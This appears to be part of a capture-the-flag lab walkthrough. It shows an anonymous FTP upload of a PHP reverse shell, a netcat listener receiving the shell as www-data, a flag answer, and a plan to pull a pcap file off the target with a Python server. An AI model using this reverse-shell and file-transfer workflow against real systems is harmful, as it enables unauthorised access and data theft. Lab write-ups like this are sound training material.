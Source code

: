 ```r
ftp> put test.txt 
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||36206|)
150 Ok to send data.
     0        0.00 KiB/s 
226 Transfer complete.
```

Time to upload a reverse shell and try to get RCE. ``Pentest Monkey``
Update the shell.php to include your ``IP`` and ``PORT NUMBER``

Run netcat to capture the reverse shell connection
``nc -lvp 4444``

```r
Startup nc -lvp 4444      
listening on [any] 4444 ...
10.10.232.226: inverse host lookup failed: Unknown host
connect to [10.6.26.125] from (UNKNOWN) [10.10.232.226] 58966
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:51:38 up 7 min,  0 users,  load average: 0.00, 0.09, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls -l
```

We are www-data. Run the file listing command and obtain the recipe.txt file
``Answer:`` love

While doing a file liisting with ls -l, I found a file owned by www-data
```r
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
```
``incidents``
Opened the incident directory and discovered a file called 
``-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng``

Let check whether there is python installed, so that we can transfer the file to our system and dig deep into it
```r
www-data@startup:/incidents$ which python
which python
/usr/bin/python
```
Good, we have python installed. Let us start our python server and transfer it to our local machine for further analysis

